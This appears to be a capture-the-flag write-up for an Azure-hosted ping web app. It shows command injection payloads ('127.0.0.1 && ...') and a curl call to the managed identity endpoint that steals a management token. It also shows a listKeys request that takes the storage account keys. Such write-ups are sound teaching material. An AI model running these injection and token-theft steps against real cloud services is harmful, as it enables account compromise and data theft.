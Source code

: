 ![ManagedSecrets1](https://user-images.githubusercontent.com/84762311/233646261-6000da4b-15d8-403e-8a51-c22e559ba4e4.png)



## Description

>Today in school, I learnt how to create a website with python! There is also the networking lesson where i learn the ping command...
>
>ps the flag is not in the instance :)  
>https://lncctf2023-webapp.azurewebsites.net


## Solution

Playing around with the input, I uncovered a command injection vulnerability.
```
127.0.0.1 && ls
```
![ManagedSecrets2](https://user-images.githubusercontent.com/84762311/233647176-f2e38c1a-019b-42a6-ab0e-52496c9c8253.png)


From an article by [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#cea8), I found a command which retrieves the management token.
```
127.0.0.1 && curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
![ManagedSecrets3](https://user-images.githubusercontent.com/84762311/233648638-d3d56b88-9060-4b73-a8d8-36abbc48b2a4.png)


Extract out the subscriptionId, resourceGroupsName, accountName from the environment variables
```
127.0.0.1 && printenv
```
![ManagedSecrets4](https://user-images.githubusercontent.com/84762311/233681009-b2190ab3-5c3b-4e4c-a663-66411316628f.png)


Using postman, send a POST request to obtain access keys from the storage account. Add the access token extracted previously into the request header. Refer to [Microsoft](https://learn.microsoft.com/en-us/rest/api/storagerp/storage-accounts/list-keys?tabs=HTTP) documentation.
```
https://management.azure.com/subscriptions/d7748706-f6cc-4e9d-a1f8-1fc802191456/resourceGroups/lncctf2023_managed_secrets/providers/Microsoft.Storage/storageAccounts/lncctf2023managedsa/listKeys?api-version=2022-09-01
```
![ManagedSecrets5](https://user-images.githubusercontent.com/84762311/233681100-20e70c11-68f0-4237-bba2-58ee5842c7b7.png)


Using the [Microsoft Azure Storage Explorer](https://github.com/microsoft/AzureStorageExplorer/releases) Select Storage account or service > Account name and key. Connect to the storage using the credentials.

![ManagedSecrets6](https://user-images.githubusercontent.com/84762311/233681283-cb18c67d-967b-45fc-acff-f097bd09a958.png)

Retrieve the flag in private

![ManagedSecrets7](https://user-images.githubusercontent.com/84762311/233681578-b9c5b362-7b92-4120-80f1-cce49531e510.png)


## Flag

LNC2023{h3y_h0w_did_y0u_g3T_thi5}